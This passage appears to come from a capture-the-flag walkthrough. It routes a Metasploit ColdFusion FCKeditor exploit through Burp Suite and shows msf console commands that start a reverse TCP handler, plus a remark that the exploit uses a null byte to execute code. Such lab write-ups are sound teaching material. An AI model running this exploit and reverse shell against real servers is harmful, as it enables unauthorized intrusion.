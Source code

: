 Choose Ok to get out and make sure it's enabled:

![burp-proxy-enabled](/assets/images/2020-08-02-22-02-54.png)

Back to msf and set RHOST to 127.0.0.1 now, so it goes via Burp:

```text
msf5 exploit(windows/http/coldfusion_fckeditor) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf5 exploit(windows/http/coldfusion_fckeditor) > exploit
[*] Started reverse TCP handler on 10.10.14.31:4444
[*] Sending our POST request...
```

Now go back to Burp, will see it intercepted:

![burp-intercept](/assets/images/2020-08-02-22-04-18.png)

Can see the exploit is using a null byte (%00) at the end to execute code.

Send to Repeater and have a look:

![burp-response](/assets/images/2020-08-02-22-04-39.png)
